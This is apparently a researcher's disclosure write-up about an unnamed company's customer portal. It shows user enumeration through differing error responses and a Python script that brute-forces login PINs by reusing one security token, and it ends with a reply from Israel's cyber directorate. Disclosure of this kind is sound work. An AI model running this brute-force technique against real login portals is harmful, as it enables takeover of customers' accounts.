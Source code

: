 # The research goal
## tl;dr
Found a vulnerabiility to login into any customer portal, and while exploiting the vulnerabiility for POC, I discovered an anomaly enabling me to discover all the company customers.<br>
Meaning, me being able to login into any of the company customers accounts
<br>
I will start from the second vulnerability since the explotation needs this order.


## The research
###  CWE-204: Observable Response Discrepancy
Whlile exploiting another vulnerability, I noticed I get a different response whether the input belongs to the company client, or not:<br>

* Invalid user:
```json
{'status': {'isError': True, 'code': 422, 'text': 'Invalid data', 'message': 'Invalid input'}, 'data':
{'phone_number': 'לא ניתן להתחבר עם מספר זה'}})
```
* valid user:
```json
{"status":{"isError":false,"code":200,"text":"Ok","message":"Ok"},"data":""}
```
Cool! We can detect all the company clients using enumeration!


### CWE-307: Improper Restriction of Excessive Authentication
After we found a company client, we would like to login into their account!<br>

The company didn't enforce a rate limit defense mechanism but added a custom security code.
However, they don't make sure it's used only serveral times, to I managed to use one token to the whole attack.<br>


```python
async def try_pin_code(phone_number, pin_code, session):
    company_url = "https://<company-domain>/index.php?option=<censored>&task=user.loginConfirm&format=raw"
    cookies = {
        'ea665a87302479a2702d938bca74ec90': '<CSRF_TOKEN_USED_MULTIPLE_TIMES>',
    }

    data = {
        'verification_code': pin_code,
        '<company>SecurityToken': '<censored>',
        'googleAnalyticsClientId': 'false'
    }

    async with session.post(company_url, cookies=cookies, data=data) as resp:
        try:
            json_response = await resp.json()
        except aiohttp.client_exceptions.ContentTypeError:
            text = await resp.text()
            try:
                json_response = json.loads(text)
            except json.decoder.JSONDecodeError:
                print('FAILED', text)
                return

    print(phone_number, pin_code, json_response)
    if not json_response.get('status').get('isError'):
        print('MATCH')
        exit(0)
```
 Using this brute force script, I managed to login to every company user.


 # INCD Resposne
```
 תודה על פנייתך, הנושא הועבר לגורמים הרלוונטיים. 
```